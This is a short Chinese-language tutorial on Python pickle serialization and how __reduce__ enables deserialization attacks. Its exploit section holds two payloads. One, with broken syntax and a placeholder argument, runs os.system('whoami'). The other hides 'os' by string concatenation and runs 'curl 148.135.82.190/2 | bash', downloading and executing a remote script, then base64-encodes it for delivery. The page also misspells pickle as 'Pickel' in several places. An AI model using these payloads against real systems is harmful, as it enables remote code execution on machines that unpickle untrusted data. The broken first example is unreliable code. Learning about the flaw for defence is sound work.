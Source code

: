 ## 简介
Pickel 是一个模块，提供了一个简单的持久化功能，可以将对象以文件的形式存放在磁盘上。pickel 模块只能在 python 中使用，python 中几乎所有的数据类型（列表，字典，集合，类等等）都可以用 pickel 来反序列化。

也就是说，我们的 Pickel 提供了一个简单的序列化与反序列化问题。比如，我们可以通过我们的 `dump` 来吧我们的文件写入到我们的文件对象当中，`dumps` 时产生一个文件

同时，我们也可以通过我们的 `loads` 把我们的文件中的数据解析为一个 python 对象。`load` 读取文件。

```
import pickle

a_list=['a','b','c']

print(pickle.dumps(a_list))

c=b'\x80\x04\x95\x11\x00\x00\x00\x00\x00\x00\x00]\x94(\x8c\x01a\x94\x8c\x01b\x94\x8c\x01c\x94e.'

print(pickle.loads(c))
```

![[Pasted image 20240424104327.png]]

为什么我们生成的字节那么扭曲？原因在于：我们的 `PVM`,PVM 是我们的 python 的一个“虚拟机当中”，也可以理解为我们的解释器。我们的 python 解释器会将编译后的字节码转发到我们的 Python 虚拟机中执行。

而我们的 Pickel 是一门基于**栈**的编程语言，其本质就是一个轻量级的 PVM，

## 漏洞
Pickle 反序列化漏洞源自于__reduce__函数，
**正常情况下**, 我们可以通过重写类的 `object.__reduce__()` 函数，使之在被实例化时按照重写的方式进行。具体而言，python 要求 `object.__reduce__()` 返回一个元组，当 `__reduce__` 方法返回一个元组时 , 第一个元素是一个可调用对象 , 这个对象会在创建对象时被调用 . 第二个元素是可调用对象的参数 , 同样是一个元组。

例如：
```
有OS类的payload
import pickle

import os

class A(object):

    def __reduce__(self):

        a='whoami'

        return (（os.system）,(参数1,))

a=A()

test=pickle.dumps(a)

pickle.loads(test)
```

```
import pickle
import base64

class A(object):
    def __reduce__(self):
        return (eval, ("__import__('o'+'s').popen('curl 148.135.82.190/2 | bash').read()",))    
a = A()
a = pickle.dumps(a)
print(base64.b64encode(a))

```

通过修改我们的 a，我们就可以实现任意指令执行。